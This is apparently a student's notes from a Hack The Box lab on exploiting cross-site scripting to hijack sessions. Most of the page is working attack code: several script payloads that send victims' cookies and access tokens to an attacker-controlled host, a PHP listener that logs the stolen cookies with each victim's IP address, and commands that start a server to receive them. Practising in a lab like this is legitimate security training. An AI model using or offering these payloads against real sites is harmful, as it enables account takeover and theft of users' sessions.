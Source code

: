 ![[Pasted image 20240816165316.png]]
now to figure out the expoit....
Finally... is a XSS session hijacking thing
time to review the HTB lesson https://enterprise.hackthebox.com/academy-lab/5343/5286/modules/103/1008

## Exploiting the XSS Vulnerability with Session Hijacking

JavaScript payloads to try:
```javascript
document.location='http://10.10.15.64:80/index.php?c='+document.cookie;
new Image().src='http://10.10.15.64:8000/index.php?c='+document.cookie;

<script>document.location='http://10.10.15.64:00/XSS/index.php?c='+document.cookie</script>

<script>document.location='http://10.10.15.64:00/XSS/index.php?c='+localStorage.getItem('access_token')</script>

<script>new Image().src="http://10.10.15.64:80/index.php?c="+document.cookie;</script>

<script>new Image().src="http://10.10.15.64:80/index.php?c="+localStorage.getItem('access_token');</script>
```

working payload script.js
```javascript

```

index.html code:
```html
<script src=http://10.10.15.64:80/script.js></script>
```

index.php script:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

host a php server and move all the files to it (index.php, index.html, script.js)
```session
mkdir /tmp/tmpserver 
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```
